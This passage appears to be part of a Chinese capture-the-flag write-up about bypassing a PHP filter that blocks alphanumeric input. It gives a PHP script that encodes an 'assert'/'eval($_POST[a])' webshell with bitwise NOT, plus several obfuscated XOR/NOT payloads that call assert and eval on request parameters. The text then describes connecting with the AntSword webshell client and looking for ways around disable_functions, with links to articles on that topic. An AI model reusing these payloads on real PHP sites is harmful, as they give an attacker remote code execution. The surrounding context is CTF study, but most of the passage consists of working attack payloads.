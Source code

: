 结果：
```
(~%9E%8C%8C%9A%8D%8B)(~%D7%8F%97%8F%96%91%99%90%D7%D6%D6);
```

webshell
```php
<?php
$b='assert';
echo urlencode(~$b);
echo "\n";

$a='(eval($_POST[a]))';
echo urlencode(~$a);
?>
```

## 其他payload
```
code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27cmd%27])
```

```
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_GET[a])&a=phpinfo();
```

```
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_GET[a])&a=phpinfo();
```

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

蚁剑连接后发现不能执行系统命令，那么应该是bypass_disablefunction()

![](https://img-blog.csdnimg.cn/d9a78d60cc2e47eeabb5bc66e8761dc0.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
看到根目录下存在flag文件，但是无权限执行，又发现一个 readflag

![](https://img-blog.csdnimg.cn/ba8dd48ae74a4cda8732c7b462c4caaa.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
反编译readflag文件，发现是通过这个文件来获取flag

![](https://img-blog.csdnimg.cn/b2612910ed884bdf8e7a9fb55d413be5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
那么就要提升权限，绕过disable_functions

看几篇文章：

[bypass disable_function多种方法+实例](https://www.anquanke.com/post/id/208451#h2-4)

[PHP中通过bypass disable functions执行系统命令的几种方式](https://www.freebuf.com/articles/web/169156.html)

[bypass disable_function](https://blog.csdn.net/weixin_45551083/article/details/110200540)

[深入浅出LD_PRELOAD & putenv() ](https://www.anquanke.com/post/id/175403)
